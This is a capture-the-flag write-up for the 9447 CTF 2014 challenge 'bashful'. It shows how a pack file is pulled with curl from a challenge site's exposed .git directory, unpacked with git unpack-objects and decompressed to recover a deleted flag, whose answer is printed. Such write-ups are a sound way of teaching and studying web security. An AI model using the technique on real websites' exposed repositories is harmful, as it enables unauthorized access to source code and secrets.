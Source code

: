 ## bashful ##
Writeup by @auscompgeek.

> **Note**: This is the second (ironically easier) of the two git challenges,
> the first being [tumorous](tumorous.md).  This writeup has been written under
> the assumption that the first has been read.

### tl;dr ###
* `.git` repo was exposed (with indexes on after the challenge was "fixed")
* get and unpack the pack file
* read the blob objects (like in tumorous)

### Introduction ###
Upon visiting <http://bashful.9447.plumbing/>, we are presented with a
diary-like page, similar to tumorous.  They seem identical at first glance,
however, a closer inspection reveals something more.

Here are the diary entries:

```
13/2/2004: I learned how to html, yay!
12/4/2004: I learned how to use git, yay!
13/4/2004: Hidden my 'repository' so people can't access it. I have a feeling I will need to protect something soon.
08/9/2004: Forged a token from the whispering iron. It is very dear to me, I should protect it.
10/9/2004: I put my token in a text file to protect it from alien mind readers from planet Zblaargh.
10/9/2004: I can't forget my token. What do I do? I should also pack so I'm ready to leave soon.
11/9/2004: I panicked and deleted the token. It is the work of evil doers.
12/9/2004: My token is lost. My life has no meaning now. I'm going to watch Louie season 4.
```

Note the extra sentence in the differing entry for 10/9/2004:

> I should also pack so I'm ready to leave soon.

This implies that we may need to look at git pack files.

### Tips and Background ###
In addition to the tips in the tumorous writeup, it is useful to know about the
`git unpack-objects` command.  This reads an object pack file from stdin, and
unpacks the objects within into the current git repo.

### Exploitation ###
As before, we need to get a git blob object that represents `token`.

If we navigate to <http://bashful.9447.plumbing/.git/objects/>, we find that
all the objects are gone.  Navigate to the `pack` subdirectory however, and we
find a pack file named `pack-deff83d57714493c6d317394f3542da8e396f887.pack`.
We can download this and run `git unpack-objects` in a git repo:

```console
$ cd $(mktemp -d)
$ git init
Initialized empty Git repository in [temporary directory]
$ curl http://bashful.9447.plumbing/.git/objects/pack/pack-deff83d57714493c6d317394f3542da8e396f887.pack | git unpack-objects
Unpacking objects: 100% (4/4), done.
```

Now that we have all the objects in our git repo, we can now find the blob
object.  I was lazy, so I just decompressed _all_ the objects:

```console
$ cd .git/objects
$ for file in ??/*; do (printf "\x1f\x8b\x08\x00\x00\x00\x00\x00"; cat $file) | gunzip | cat -v; done
gzip: stdin: unexpected end of file
commit 296^@tree a475f4d3b14d659ee9d08d727a8dee7d896d2ca9
parent ec972f9af79a09129021a30e7f08099aa2b8a81d
author root <root@ip-172-31-10-205.ap-southeast-2.compute.internal> 1417230572 +0000
committer root <root@ip-172-31-10-205.ap-southeast-2.compute.internal> 1417230572 +0000

My precious flag now exists

gzip: stdin: unexpected end of file
blob 45^@9447{I_JUST_THINK_BITCOIN_WILL_DIE_OUT_SOON}

gzip: stdin: unexpected end of file
tree 71^@100644 index.html^@M-2qM-:^H^TWHlM-^XM-N+M-^V
M-^H\M-_ex^^M-j100644 token^@-(M-,M-pM-^_M-DBO~^W^AM-=|M-^JmM-rM-^^lM-^_M-a
gzip: stdin: unexpected end of file
blob 731^@<html>
<head> </head>
<body>
13/2/2004: I learned how to html, yay!<br>
12/4/2004: I learned how to use git, yay!<br>
13/4/2004: Hidden my 'repository' so people can't access it. I have a feeling I will need to protect something soon.<br>
08/9/2004: Forged a token from the whispering iron. It is very dear to me, I should protect it.<br>
10/9/2004: I put my token in a text file to protect it from alien mind readers from planet Zblaargh.<br>
10/9/2004: I can't forget my token. What do I do? I should pack so I'm ready to leave soon.<br>
11/9/2004: I panicked and deleted the token. It is the work of evil doers.<br>
12/9/2004: My token is lost. My life has no meaning now. I'm going to watch Louie season 4.<br>
</body>
</html>
```

Our flag clearly is `9447{I_JUST_THINK_BITCOIN_WILL_DIE_OUT_SOON}`.
Hmm... will Bitcoin die out though?

### Notes ###
It may be easier (hint: it *is*) to `wget` the entire `.git` directory, like
[mathiasbynens did](https://github.com/ctfs/write-ups/tree/master/9447-ctf-2014/bashful).
I outline this process as this is along the lines of the original intended
solution (before they realised it was impossible).
